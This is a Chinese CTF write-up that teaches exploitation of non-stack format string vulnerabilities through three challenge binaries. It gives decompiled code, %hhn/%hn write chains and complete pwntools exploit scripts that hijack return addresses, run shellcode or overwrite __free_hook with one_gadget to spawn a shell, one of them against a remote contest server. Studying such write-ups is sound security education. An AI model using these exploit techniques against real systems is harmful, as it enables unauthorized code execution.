







# 非栈上格式化字符串漏洞利用 - 先知社区

非栈上格式化字符串漏洞利用


# 基础知识

*   用于地址写的格式化字符：
*   %hhn（写入一字节）
*   %hn（写入两字节）
*   %n（32 位写四字节，64 位写 8 字节）
*   %< number>$type：
*   直接作用第 number 个位置的参数
*   %7$x读第 7 个位置参数值
*   %7$n对第 7 个参数位置进行写

一般来说，栈上的格式化字符串漏洞利用步骤是先泄露地址，包括 ELF 程序地址和 libc 地址；然后将需要改写的 GOT 表地址直接传到栈上，同时利用%c%n的方法改写入 system 或 one\_gadget 地址，最后就是劫持流程。但是对于 BSS 段或是堆上格式化字符串，无法直接将想要改写的地址指针放置在栈上，也就没办法实现任意地址写。下面用 3 个例题，介绍一下常用的非栈上格式化字符串漏洞的利用方法。

需要注意：  
非栈上的格式化字符串很不稳定，所以一般最多就写 2 个字节

# hitcontraining\_playfmt (32 位)

## ida

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623214527-366b5428-11cc-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623214535-3ae14b20-11cc-1.png)

有格式化字符串漏洞，但是无法输入 aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p 来直接泄露偏移

没有偏移的话我们无法利用 fmtstr\_payload() 进行任意地址的覆写，所以不能进行 got 表的覆写。不过这题我们是要劫持返回地址，也不需要 got 劫持，因此影响不大。

通过调试，可以看到返回地址 0x80485ad 在栈中的第 7 个位置

%Yc%X$n: 将 Y 写入栈上第 X 个位置指针指向的位置  
也就是说，假设栈上第 X 个位置的值为 0x0804aaaa，那么我们在利用格式化字符串进行篡改时，并不能直接将 0x0804aaaa 修改为 0x0804bbbb，只能修改\[0x0804aaaa\]存储的内容。  
因此如果我们利用%Yc%7$n修改返回地址，实际上实在修改 0x80485ad 存储的代码，这肯定是会报错的。

## 劫持返回地址

本题的关键在于利用 ebp 链，利用 gdb 调试可以看到栈的结构如下所示：

```plain
=====================
  Magic echo Server
=====================
%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-
0x8048680-0x4-0x8048507-0x8048685-0x804a000-0xffcb0fa8-0x80485ad-0xf7f35d20-0x804a000-0xffcb0fb8-
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623214645-645f47fe-11cc-1.png)  
栈中第六个位置是 ebp，存储的内容是 0xffffce98，假设我们利用%108c%6$hhn 进行篡改，实际上会将地址 0xffffce98 存储的 0xffffcea8 改为 0xffffce6c。接下来，如果我们继续利用%Yc%10$n对栈中第 10 个位置进行篡改，就会将地址 0xffffce8c 存储的内容由 0x80485ad 改为 Y。到此，就可以成功的劫持返回地址。

## 泄露栈地址

通过泄露栈上第六个的值，再利用 gdb 确定相对偏移就可以获取栈地址

## 写入 shellcode

需要输入 quit 退出循环，因此 shellcode 的地址是\[buf+4\]，即 0x0804a064，因此返回地址需要覆盖为 0x0804a064

## 思路

```plain
Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623214751-8bfe5d18-11cc-1.png)  
什么保护都没开，直接把 prev\_ebp 改为 buf 的地址，然后在 buf 内写入 shellcode，就 getshell 了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623214759-91062a02-11cc-1.png)

```plain
pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
```

## exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

def duan():
    gdb.attach(p)
    pause()

x64_32 = 0
if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
buf=0x0804A060
pre_ebp=0x080485AD

#aaaa-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#aaaa-0x8048680-0x4-0x8048507-0x8048685-0x804a000-0xffffce98-0x80485ad-0xf7fb5d60-0x804a000-0xffffcea8-0x80485ea-0xffffcec0-(nil)-(nil)-0xf7e1a647-0xf7fb5000-0xf7fb5000-(nil)

ru('==\n')
sl('%6$p')
ru('0x')
stack_addr=int(r(8),16)-0x28+0x1c
leak('stack_addr:',stack_addr)

#gdb.attach(p)

pl = b'%' + str(stack_addr & 0xff).encode() + b'c%6$hhn' 
pl = pl.ljust(200,b'\x00')
s(pl)
p.recv()
#duan()

pl = b'%' + str(0xa064).encode() + b'c%10$hn' 
pl = pl.ljust(200, b'\x00')
s(pl)
p.recv()
#duan()

shellcode = asm(shellcraft.sh())
pl = b'quit' + shellcode
s(pl)

itr()
```

32 位的是直接修改第 2 列，64 位是修改第 3 列

# 2023 年第三届陕西省大学生网络安全技能大赛 easy\_printf (64 位)

## ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *s2; // [rsp+8h] [rbp-78h] BYREF
  char buf[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v6; // [rsp+78h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  puts("Do you know who the best pwner is?");
  base64_decode(encoded_string, &s2);           // VG9rYW1laW5FX2lzX3RoZV9iZXN0X3B3bmVy
  read(0, buf, 0x3CuLL);
  if ( !strcmp(buf, s2) )
    vuln();
  else
    printf("I think your idea is wrong");
  free(s2);
  return 0;
}
```

这里找一个在线网站解一下 base64，然后进入 vuln

```plain
__int64 vuln()
{
  puts("Oh,you are right");
  puts("Welcome to this place");
  return fmtstr();
}
```

```plain
__int64 fmtstr()
{
  int i; // [rsp+Ch] [rbp-4h]

  for ( i = 0; i <= 12; ++i )
  {
    puts("What do you want to say?");
    read(0, buf, 0x40uLL);
    printf(buf);
  }
  return 0LL;
}
```

这里有 13 次格式化字符串

## 思路

利用非栈上的格式化字符串来修改 free\_hook 为 one\_gadget  
\_\_libc\_start\_main+240：main 函数的返回地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623214935-ca2d1e30-11cc-1.png)  
1.这个题首先就是运用 rbp 附近的两个跳板 (偏移为 8 和 10)，把\_libc\_start\_main+240 改成 free\_hook  
这里需要改 6 位，所以需要 4 步

```plain
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
```

这里前两步修改就是直接对 \_libc\_start\_main+240 后两位进行了修改  
后两步是先修改了一下地址，然后修改了 \_libc\_start\_main+240 的倒数 3，4 位 (就是不能直接修改地址的倒数 3，4 位，我们就修改地址，然后改新地址的最后两位，以达到修改地址的倒数 3，4 位的目的)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623215005-dc196234-11cc-1.png)  
2.然后再用跳板把 free\_hook 改为 one\_gadget  
free\_hook (0x7fde287987a8) 与 one\_gadget (0x7fde2841727a) 也是后 6 位有区别，所以需要多步

```plain
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
```

第一步是先直接修改 free\_hook 的后四位，第二三步是把 \_libc\_start\_main+240 修改成了 free\_hook+2 (free\_hook 最后两位是 0xa8 , 0xa8+0x2=0xaa , 这个地址是用 libc 查找的，所以本地和远程后三位是一致的)，然后再用这种方法修改。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623215645-ca52d746-11cd-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623215712-da525b62-11cd-1.png)  
这里再执行完上面最后一步就可以修改完了，然后执行 free 函数就直接 getshell 了。

## exp (本地)

```plain
from pwn import *
from ctypes import *

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
context(os='linux',arch='amd64',log_level='debug')

p=process('./pwn')
#p=remote('60.204.130.55',10010)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

sla('Do you know who the best pwner is?\n','TokameinE_is_the_best_pwner\0')

sla('What do you want to say?\n','%18$p')
ru('0x')
#gdb.attach(p)
libcbase = int(r(12),16) - 0x5f1168
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('(og//0x10000)&0xffff',(og//0x10000)&0xffff)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
leak('(free_hook//0x10000)&0xff',(free_hook//0x10000)&0xff)
free1 = free_hook//0x10000000000
leak('free1',free1)
#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-
gdb.attach(p)
num=input()#num = 72
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
#gdb.attach(p)
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
#gdb.attach(p)
'''
'''
itr()
```

## exp (远程)

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'


#p=process('./pwn')
p=remote('60.204.130.55',10010)
elf = ELF('./pwn')
libc = ELF('./libc.so.6')

sla('Do you know who the best pwner is?\n','TokameinE_is_the_best_pwner\0')

sla('What do you want to say?\n','%18$p')
ru('0x')
libcbase = int(r(12),16) - 0x5f1168
leak('libcbase',libcbase)
og = libcbase + 0x4527a
free_hook = libc.sym["__free_hook"] + libcbase
leak('og',og)
leak('free_hook',free_hook)
free = free_hook//0x100000000
leak('free',free)
free1 = free_hook//0x10000000000
'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf03a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1247 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''

num = 72 #0x48
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(free_hook&0xffff)+'c%10$hn')
sla('What do you want to say?\n','%'+str(num+2)+'c%8$hhn')
sla('What do you want to say?\n','%'+str((free_hook//0x10000)&0xff)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(og&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(num)+'c%8$hhn')
sla('What do you want to say?\n','%'+str(0xaa)+'c%10$hhn')
sla('What do you want to say?\n','%'+str((og//0x10000)&0xffff)+'c%29$hn')
sla('What do you want to say?\n','%'+str(0xac)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free&0xff)+'c%29$hhn')
sla('What do you want to say?\n','%'+str(0xad)+'c%10$hhn')
sla('What do you want to say?\n','%'+str(free1)+'c%29$hhn')
itr()
```

打远程时，29 位偏移地址，最后一位一定是 8，所以只需要爆破倒数第 2 位就行，所以有 1/16 的概率能够打出来

# 2023 年 DASCTF 2023 六月挑战赛｜二进制专项 fooooood (64 位)

## ida

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623215811-fd98316e-11cd-1.png)

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int i; // [rsp+4h] [rbp-Ch]

  Init();
  puts("Have you heard about YANGSHEN?");
  puts("YangShen said that he want to know your name.");
  printf("Give me your name:");
  getstring(name, 32);
  printf("Hello %s\n", name);
  for ( i = 3; i > 0; --i )
  {
    printf("Now, you have %d times to tell me what is your favourite food!\nwhat's your favourite food: ", i);
    getstring(food, 32);
    printf("You like ");
    printf(food);
    puts("!?\nI like it too!");
  }
  return 0;
}
```

```plain
unsigned __int64 __fastcall getstring(__int64 a1, int a2)
{
  int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  for ( i = 0; i < a2; ++i )                    // a2=32
  {
    read(0, (i + a1), 1uLL);                    // a1=name  bss
    if ( *(i + a1) == 0xA )
    {
      *(i + a1) = 0;
      return __readfsqword(0x28u) ^ v4;
    }
  }
  return __readfsqword(0x28u) ^ v4;
}
```

三次格式化字符串漏洞

## 思路

三次格式化字符串是完全不够用的，所以先修改次数，然后把 \_libc\_start\_main+240 修改成 one\_gadget 就可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623215846-123ced4e-11ce-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623215851-151f4af2-11ce-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20230623215855-17d4f06c-11ce-1.png)

```plain
sla('favourite food: ','%'+str(i_addr&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(6)+'c%37$hhn')
```

用上面两步来对 i 的次数进行修改

```plain
sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')
sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')
```

这四步就是把 \_libc\_start\_main+240 修改成 one\_gadget

## exp

```plain
from pwn import *
context.log_level = 'debug'
context.arch="amd64"
p=process("./pwn")
#p=remote("node4.buuoj.cn",25309)
elf=ELF("./pwn")
libc=ELF('libc.so.6')

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

#gdb.attach(p)

ru('Give me your name:')
s(b'a'*32)
ru('favourite food: ')
sl(b'%9$p-%11$p')#%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
#gdb.attach(p)
ru("0x")
libc_base=int(r(12),16)-libc.sym['__libc_start_main']-240
leak('libc_base:',libc_base)
ogs=[0x45226,0x4527a,0xf03a4,0xf1247]
og=libc_base+ogs[0]
leak('og ',og)
leak('(og>>16)&0xff',((og>>16)&0xff))
#leak('og')

ru("0x")
stack=int(r(12),16)
stack1=stack-224
leak('stack1 ',stack1)
leak('stack1&0xffff ',stack1&0xffff)
leak('(stack1+2)&0xffff',(stack1+2)&0xffff)
i_addr=stack-(0x7ffe373b3e18-0x7ffe373b3d10)+0x8+0xc
leak('i_addr',i_addr)
#gdb.attach(p)
sla('favourite food: ','%'+str(i_addr&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(6)+'c%37$hhn')
sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')
sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')
sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')
gdb.attach(p)
itr()
```
